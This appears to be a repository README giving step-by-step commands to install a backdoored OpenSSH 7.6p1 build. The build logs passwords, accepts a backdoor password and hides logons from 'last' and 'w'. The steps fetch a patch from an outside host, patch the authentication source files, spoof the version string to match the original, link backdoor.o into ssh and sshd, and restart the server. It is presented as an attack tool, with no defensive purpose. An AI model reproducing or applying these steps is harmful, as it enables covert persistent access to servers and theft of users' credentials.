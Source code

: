 1. password logging
2. logon using a backdoor password
3. logon through the patched sshd results in nothing in output from `last` and `w`

#### donwload package
wget https://ftp4.usa.openbsd.org/pub/OpenBSD/OpenSSH/portable/openssh-7.6p1.tar.gz   
wget https://vps/openssh-7.6p1-patch.tar.gz   

#### copy backdoor files and patch   
cp openssh-7.6p1-patch/backdoor.* openssh-7.6p1   
cd openssh-7.6p1   

patch < backdoor.patch   

patching file auth.c   
patching file auth-pam.c   
patching file auth-passwd.c   
patching file sshconnect2.c   
patching file sshlogin.c   

#### Check and remember version of original openssh   
ssh -V   
OpenSSH_7.6p1, OpenSSL 1.0.2k-fips  26 Jan 2017   

#### Change version.h   
sed -i 's/#define SSH_VERSION\t".*"/#define SSH_VERSION\t"OpenSSH_7.6"/' version.h   
sed -i 's/#define SSH_PORTABLE\t".*"/#define SSH_PORTABLE\t"p1"/' version.h   

#### Install required library   
yum -y install zlib-devel openssl-devel pam-devel   

#### run configure   
#Notice: Confirm the location of the original openssh and configure files installed. It's important for command ./configure --prefix   
./configure --prefix=/usr --sysconfdir=/etc/ssh --with-pam --with-kerberos5   

#### add backdoor.o to Makefile   
sed -i 's/ssh\.o/ssh\.o backdoor\.o/' Makefile   
sed -i 's/sshd\.o/sshd\.o backdoor\.o/' Makefile   

#### compile and install   
make   
make install   

#### restart sshd server   
sed -i 's/Type=.*/Type=fork/'  /lib/systemd/system/sshd.service #if huge when restart sshd   
systemctl daemon-reload #if need   
systemctl restart sshd   

#### view.c show the password record   

